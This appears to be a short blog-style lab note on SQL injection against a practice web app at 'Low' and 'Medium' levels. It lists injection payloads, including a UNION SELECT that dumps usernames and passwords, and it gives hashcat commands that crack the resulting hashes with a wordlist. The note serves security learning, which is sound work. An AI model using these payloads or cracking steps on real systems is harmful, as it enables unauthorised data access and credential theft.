 ```yaml
---
title: "SQL Injection"
date: 2024-02-07T16:06:04+01:00
draft: false
tags: ["Caido", "SQL", "Web"]
categories: ["Hacking"]
---
```


 SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior. 

 https://portswigger.net/web-security/sql-injection


Low:

```1' or '1'='1```

```1' OR 1=1 -- //```
	
![](1.png)

```1' OR 1=1 --``` Will work

```1' OR 1=1 - ```Wont work

![](2.png)

```'UNION SELECT user, password FROM users#```

![](3.png)

`![Screenshot](4.png)


Medium:

Same thing but in Caido isn't working

![Screenshot](5.png)

![Screenshot](6.png)

![Screenshot](7.png)


Once you have the hashes load them into file and run hashcat: 
```hashcat -m 0 hash /usr/share/wordlists/rockyou.txt```

to view them: 
```hashcat --show hash```

![Screenshot](8.png)